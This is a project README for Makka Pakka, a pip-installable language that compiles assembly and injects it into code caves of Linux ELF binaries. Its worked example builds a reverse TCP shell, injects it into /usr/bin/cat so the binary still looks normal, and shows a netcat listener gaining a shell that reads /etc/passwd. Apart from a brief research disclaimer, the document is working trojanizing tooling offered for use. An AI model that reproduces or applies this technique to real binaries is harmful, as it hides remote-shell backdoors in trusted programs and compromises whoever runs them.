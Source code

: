 # Makka Pakka
Makka pakka is a programming language which transpiles into Intel assembly.
Makka pakka programs are specifically written to be embedded within a target
linux binary (ELF file). The language contains a submodule which autmatically
injects the compiled code into a
[code cave](https://en.wikipedia.org/wiki/Code_cave) of the target program.

To learn more, please visit the
[documentation page](https://lemon-bush-0f7dfc410.2.azurestaticapps.net/).

## Disclaimer
This project was created purely for research purposes. You do not have
permission to use this program for malicious code injection.

## Installation
__Makka Pakka only works on Linux. Trying to run it on other operating systems will not work.__

Makka pakka is distributed as a package on [PyPi](https://pypi.org/project/MakkaPakka).

To install, use pip:
``` bash
pip install MakkaPakka
```

You should then have access to three commands: mkpk, mkpk-transpile, elf-caver.

Test them out!
``` bash
mkpk --help
Usage: mkpk [OPTIONS] MKPK_FILEPATH TARGET_BINARY

Options:
-o, --output-file TEXT  The filepath to output the injected binary to.
-n, --patch-entrypoint  Patches the entrypoint to point to injected code.
-e, --patch-exit        Patches the process exit to point to the injected
                        code.
-v, --verbose           Logs a verbose output to stdout.
--help                  Show this message and exit.
```

``` bash
mkpk-transpile --help
Usage: mkpk-transpile [OPTIONS] MKPK_FILEPATH

Options:
-o, --output TEXT  The filepath to output the transpiled makka pakka code to.
--help             Show this message and exit.
```

``` bash
elf-caver --help
Usage: elf-caver [OPTIONS]

Options:
-a, --asm-file TEXT     The filepath of the .asm file to inject.  [required]
-t, --target-file TEXT  The filepath of the binary to inject into.
                        [required]
-o, --output-file TEXT  The filepath to output the injected binary to.
                        [required]
-n, --patch-entrypoint  (Optional) Patches the entrypoint to point to
                        injected code.
-e, --patch-exit        (Optional) Patches the process exit to point to the
                        injected code.
--help
```

## Example
This example shows how makka pakka can be used to inject a reverse TCP shell into
a standard linux binary (/usr/bin/cat).

Creating a Makka Pakka program file:

----- reverse_tcp.mkpk -----
```
!link ../lib/stdlib/network.mkpk
!link ../lib/stdlib/syscall.mkpk
!link ../lib/stdlib/shell.mkpk

[[data]]
PORT: 0xb315
LOCALHOST_ADDR: 0x0100007f

[[code]]
[main]
> sys_socket ${AF_INET} ${SOCK_STREAM} 0x0
mov r9, rax
> sockaddr_init "LOCALHOST_ADDR" "PORT" ${AF_INET}
> sys_connect r9 rsp 0x10
> dup_stdstreams r9
> bin_bash
> sys_exit
```

Compiling the Makka Pakka program into /usr/bin/cat:
```
mkpk reverse_tcp.mkpk /usr/bin/cat -e -o cat_inject
Injecting assembly from cat_inject.asm into cat_inject.
Injected file output to cat_inject.mkpk reverse_tcp.mkpk
```

Setting up a listener on localhost:5555:
```
nc -l localhost 5555
```

Then run the injected cat binary, it looks inconspicuous! but...
```
./cat_inject --help
Usage: ./cat_inject [OPTION]... [FILE]...
Concatenate FILE(s) to standard output.

With no FILE, or when FILE is -, read standard input.

  -A, --show-all           equivalent to -vET
  -b, --number-nonblank    number nonempty output lines, overrides -n
  -e                       equivalent to -vE
  -E, --show-ends          display $ at end of each line
  -n, --number             number all output lines
  -s, --squeeze-blank      suppress repeated empty output lines
  -t                       equivalent to -vT
  -T, --show-tabs          display TAB characters as ^I
  -u                       (ignored)
  -v, --show-nonprinting   use ^ and M- notation, except for LFD and TAB
      --help     display this help and exit
      --version  output version information and exit

Examples:
  ./cat_inject f - g  Output f's contents, then standard input, then g's contents.
  ./cat_inject        Copy standard input to standard output.

GNU coreutils online help: <https://www.gnu.org/software/coreutils/>
Report any translation bugs to <https://translationproject.org/team/>
Full documentation <https://www.gnu.org/software/coreutils/cat>
or available locally via: info '(coreutils) cat invocation'
```

Now the netcat listener has a remote TCP shell!
```
nc -l localhost 5555
whoami
alex
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:106:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:107:113::/nonexistent:/usr/sbin/nologin
alex:x:1000:1000:,,,:/home/alex:/bin/bash
```
## Development Installation
If you wish to contribute to Makka Pakka, then these are the instruction for
downloading the source and setting up the dev environment

Prerequisite installs:
- Python 3.10+
- Netwide Assembler (NASM)

Clone the git repository and configure the environment.
``` bash
cd <your directory>
git clone https://github.com/PandasAreBears/MakkaPakka
```
``` bash
cd MakkaPakka
source configure.sh
```

At this point you can use Makka Pakka from within this directory.
``` bash
python3 src/mkpk.py --help
```

For more examples, or a more detailed technical explaination, please check
out the
[documentation page](https://lemon-bush-0f7dfc410.2.azurestaticapps.net/).
